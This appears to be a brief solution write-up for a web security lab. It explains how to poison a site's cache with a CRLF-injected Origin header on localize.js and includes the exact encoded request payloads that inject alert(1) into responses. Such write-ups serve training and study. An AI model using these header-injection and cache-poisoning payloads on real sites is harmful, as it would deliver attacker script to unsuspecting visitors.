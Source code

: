 # Solution

Can see able to pass params to localize.js - play around with setting `cors=1`, can see that Origin is reflected back.

Set `Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$` - this will overwire the response.

Add header `Pragma: x-get-cache-key` to see what the key is.

Modify login such that `GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23`

It ends with `#` so that the `cors=0` becomes part of the anchor. Also it double encodes some `%` since they'll be enocoded twice.

I think only two `$$` are needed because another `$$` will get added on the end of the key.
